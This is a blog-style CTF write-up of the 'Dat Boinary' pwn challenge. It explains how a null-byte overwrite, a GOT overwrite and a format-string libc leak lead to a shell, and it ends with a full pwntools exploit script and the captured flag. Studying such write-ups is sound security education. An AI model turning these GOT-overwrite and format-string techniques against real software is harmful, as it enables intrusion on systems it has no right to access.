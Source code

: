 ```yaml
---
layout: post
title:  "CTF(x) - Binary 250 - Dat Boinary"
date:   2016-08-29 12:00:00 -0800
categories: ctf pwn
---
```


For this challenge we're provided the binary and a _libc.so.6_ binary. Just by being provided this second binary we are hinted that we will need some fuctionality from it: Rop or ret2libc probably.

{% highlight bash %}
[grazfather ~/code/CTFs/ctfx]$ file dat-boinary
dat-boinary: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, not stripped
{% endhighlight %}

I've recently bought the personal edition of [Binary Ninja](http://binary.ninja), and so will be using it for most of my static analysis.

Popping it into binja we (happily) see that it's a rather small binary. `main` is rather simple, with a menu system and a large loop, and what looks like no exit.

![main]({{site.url}}/assets/2016-08-28-CTFx-Dat-Boinary-main.png)

First a buffer of 0x80 bytes is allocated and its pointer stored at $ebp - 0x14 (_buf_ptr_). We're prompted for an ID, which is at most 9 bytes (including the null) and stored locally, at $ebp - 0x20 (_ID_).

Next the menu is printed:

{% highlight bash %}
What would you like to do?
1) upd4te th3 1d of y0ur meme.
2) Updat3 the d4nkn3ss of your m3m3.
3) upd4te the c0ntent of your maymay.
4) pR1nT th3 c0nT3nT of ur memey.
5) s00p3r s3cr3t meme 0pt10n.
{% endhighlight %}

Reversing item by item we see the following:

1. `strlen(ID)` is called and its lenght is provided to `fread` (instead of `fgets` like the first time).
2. `read_number` is called, and its return value is stored at ebp - 0x10 (_dankness_), it's compared to 0x80, the size of the allocated buffer, and if greater or equal, or signed, the nothing happens. If the value is in range, however, the 'dankness' is copied to ebp - 0x18.
3. The value at ebp - 0x18 (_size_) is checked to be valid. If in range, `fgets` is called to write to _buf_ptr_.
4. Simply calls `printf("%s", buf_ptr);`.
5. `secret_meme(ID)` is called. This function is not too short, but the only interesting part is right at the start:
![secret_meme]({{site.url}}/assets/2016-08-28-CTFx-Dat-Boinary-secret_meme.png)
It writes 0x69696969 to `(buf + 8)`. Since this function is passed the address of the ID in `main`'s stack frame (0x20), this will write to main's local at ebp - 0x18, which is _size_, which used to determine how much to write into the heap buf.

With these functions figured out, this is what main's stack frame looked like:
![main's locals]({{site.url}}/assets/2016-08-28-CTFx-Dat-Boinary-stack_frame.png)

While using `secret_meme` might look like a good way to get a huge write into the heap buffer, that is not actually where the vulnerability lies. The size is checked that it's in range, anyway. Instead, this function helps us because it can wipe out _ID_'s null byte: Provided an eight-byte ID the null byte will lie over the first byte of _size_. By overwriting this we can change our ID, and the `strlen` call will not return 8 (or less) but instead `8 + sizeof(size) + sizefof(buf_ptr)`, and will keep going until it finds a null byte. What is important, though, is that this will allow us to overwrite _buf_ptr_, and then we can use menu option 3 to write _at_ this selected address.

To write to this address, though, I needed to pass the size check, but `secret_meme` had placed an invalid value, and anyway I had overwritten it again on my way to overwriting _buf_size_. I could have used the second menu item to reset the size, but I instead just made sure to write a valid size when I was overwriting these bytes.

With a write-what-where primitive I can pretty much do what I want, but I don't know the address of the stack, so I will have to attack the _global offset table_. Here I made it more difficult than I needed, but bear with me.

I know that I needed to leak the address of something in libc, so that I could calculated the offset from there to `system`, and then patch that address into some import's entry in the GOT. My idea was to replace `atoi@got`, which is used in the menu, with the address of `printf@plt`. This would allow me to provide format strings to the menu system to leak addresses on the stack. And added benefit is that I coudl still use the menu, because `printf` returns the number of bytes printed, so to select item 3, for example, it'd just have to pass a string that prints three bytes.

Inspecting the stack I could see that `__libc_start_main+243` is on the stack, and would be the 23rd element printed. This means that provided the string "%23$X" would print out that address.

![leaking libc]({{site.url}}/assets/2016-08-28-CTFx-Dat-Boinary-leak_libc.png)

Now reading this address and using binja to find the address of `__libc_start_main` and `system` I could calculate the offset. I could use this offset and the leaked run-time address to find the address of `system` in memory.

With the address of `system` on hand, I had to write to the `atoi@got` entry again, replacing `printf@plt` with `system`. This was done simply by passing a string of length three bytes (including the newline) to `printf` to select menu item 3.

Finally, with the pointer in place, I simply needed to enter shell command I wanted into the menu system.

Now while this worked fine, I noticed later that I had made it more complicated than I needed to: Menu item 4 would print out the value at `buf_addr`, and when I filled it with the address of `atoi@got`, that value woudl be the address of `atoi` (since it had already been called and so already resolved). This would get me my libc address leak without needing a format string.

Either way, I had a working exploit:

{% highlight bash %}
   $ id
   uid=1000(dat_boinary) gid=1000(dat_boinary) groups=1000(dat_boinary)
   $ ls
   dat_boinary
   flag.txt
   $ cat flag.txt
   ctf(0n1y_th3_fr35h35t_m3m3s)
{% endhighlight %}

{% highlight python %}
#!/usr/bin/env python

import sys

from pwn import *

system_addr = 0x3e3e0
libc_start_main_addr = 0x19970
libc_leak_addr = libc_start_main_addr + 243
system_offset = system_addr - libc_leak_addr

atoi_got = 0x8049128
printf_plt = 0x8048410

def exploit(r):
    # Set the id to something 8 chars long
    r.recvuntil("please give your meme an id")
    r.send("A"*8)
    r.recvuntil("==>")

    # Run secret to overwrite the nullbyte
    r.sendline("5")
    r.recvuntil("\nsecret")
    r.recvuntil("==>")

    # Update the id, but make sure that bytes 8-11 (dankness) are undex 0x80
    r.sendline("1")
    r.recvuntil("3nt3r ur m3m3 id")
    r.send("A"*8 + "\x20\x00\x00\x00"  + p32(atoi_got))
    r.send("Z"*5) # fread will read until it gets 21 bytes
    r.sendline("")
    r.recvuntil("==>")

    # Now we can write anything to that address
    # -- Write printf
    r.sendline("3")
    r.sendline(p32(printf_plt))
    r.recvuntil("==>")

    # Now in the menu we can enter format strings
    r.sendline("%23$X") # The address of __libc_csu_init
    r.recvuntil("0pt10n.\n==> ")
    r.recvuntil("0pt10n.\n==> ")
    leak = r.recv(8)
    leak = int(leak, 16)
    r.recvuntil("==>")
    log.info("Got leak 0x{:X}".format(leak))
    system_addr = leak + system_offset

    log.info("System shoud be at 0x{:X}".format(system_addr))

    # Update meme (atoi_got) to point to system
    r.sendline("33")
    r.sendline(p32(system_addr))
    r.recvuntil("==>")

    # Now call system with "/bin/sh"
    r.sendline("/bin/sh")
    r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['./dat-boinary'], env={"LD_PRELOAD":"./libc.so.6"})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

flag: ctf(0n1y_th3_fr35h35t_m3m3s)
